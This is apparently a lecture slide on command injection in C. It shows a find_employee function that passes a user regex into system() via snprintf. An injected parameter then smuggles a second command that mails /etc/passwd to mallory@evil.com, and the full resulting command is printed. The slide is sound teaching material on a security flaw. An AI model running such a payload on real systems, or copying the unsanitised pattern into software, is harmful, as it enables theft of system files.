

# system Command Injection
Handler
void find_employee(char *regex) {
    char cmd[512];
    snprintf(cmd, sizeof cmd, "grep '%s' phonebook.txt", regex);
    system(cmd);
}
Parameter
regex = "'; mail mallory@evil.com < /etc/passwd; touch '"
system Command
grep ''; mail mallory@evil.com < /etc/passwd; touch '' phonebook.txt
46